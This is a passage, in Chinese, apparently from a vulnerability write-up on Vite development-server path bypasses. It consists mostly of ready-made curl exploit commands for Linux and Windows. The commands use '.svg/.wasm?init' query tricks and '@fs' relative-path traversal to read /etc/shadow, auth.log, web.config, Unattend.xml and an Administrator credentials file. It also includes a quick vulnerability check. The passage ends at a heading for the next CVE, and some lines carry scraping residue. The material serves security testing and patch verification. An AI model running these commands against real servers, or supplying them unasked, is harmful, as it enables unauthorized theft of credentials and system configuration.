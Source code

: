 1. **相对路径绕过**  
: 利用ID规范化前的检查漏洞，使用相对路径（如../../  
）绕过限制  
  
**Linux系统利用示例**  
:  
```
ounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(line
# SVG绕过方法
curl "http://[目标IP]:5173/etc/passwd?.svg?.wasm?init"
curl -H "sec-fetch-dest: script" "http://[目标IP]:5173/etc/passwd?.svg"
curl "http://[目标IP]:5173/etc/nginx/nginx.conf?.svg?.wasm?init"
curl "http://[目标IP]:5173/var/www/html/config.php?.svg?.wasm?init"

# 相对路径绕过方法
curl "http://[目标IP]:5173/@fs/x/x/x/vite-project/?/../../../../../etc/passwd?import&?raw"
curl "http://[目标IP]:5173/@fs/x/x/x/vite-project/?/../../../../../etc/shadow?import&?raw"
curl "http://[目标IP]:5173/@fs/x/x/x/vite-project/?/../../../../../var/log/auth.log?import&?raw"

# 验证漏洞是否存在
curl "http://[目标IP]:5173/etc/passwd"  # 应返回404错误
curl "http://[目标IP]:5173/etc/passwd?.svg?.wasm?init"  # 如果返回文件内容，则存在漏洞
```  
  
**Windows系统利用示例**  
:  
```
ounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(line
# SVG绕过方法
curl "http://[目标IP]:5173/C:/Windows/win.ini?.svg?.wasm?init"
curl -H "sec-fetch-dest: script" "http://[目标IP]:5173/C:/Windows/win.ini?.svg"
curl "http://[目标IP]:5173/C:/inetpub/wwwroot/web.config?.svg?.wasm?init"
curl "http://[目标IP]:5173/C:/Windows/Panther/Unattend.xml?.svg?.wasm?init"

# 相对路径绕过方法
curl "http://[目标IP]:5173/@fs/x/x/x/vite-project/?/../../../../../C:/Windows/win.ini?import&?raw"
curl "http://[目标IP]:5173/@fs/x/x/x/vite-project/?/../../../../../C:/Windows/system32/drivers/etc/hosts?import&?raw"
curl "http://[目标IP]:5173/@fs/x/x/x/vite-project/?/../../../../../C:/Users/Administrator/Desktop/credentials.txt?import&?raw"

# 验证漏洞是否存在
curl "http://[目标IP]:5173/C:/Windows/win.ini"  # 应返回404错误
curl "http://[目标IP]:5173/C:/Windows/win.ini?.svg?.wasm?init"  # 如果返回文件内容，则存在漏洞
```  
  
**注意**  
: SVG绕过仅在文件小于build.assetsInlineLimit  
（默认4kB）且使用Vite 6.0+时有效。  
### 4. CVE-2025-32395 (无效请求目标绕过)  
  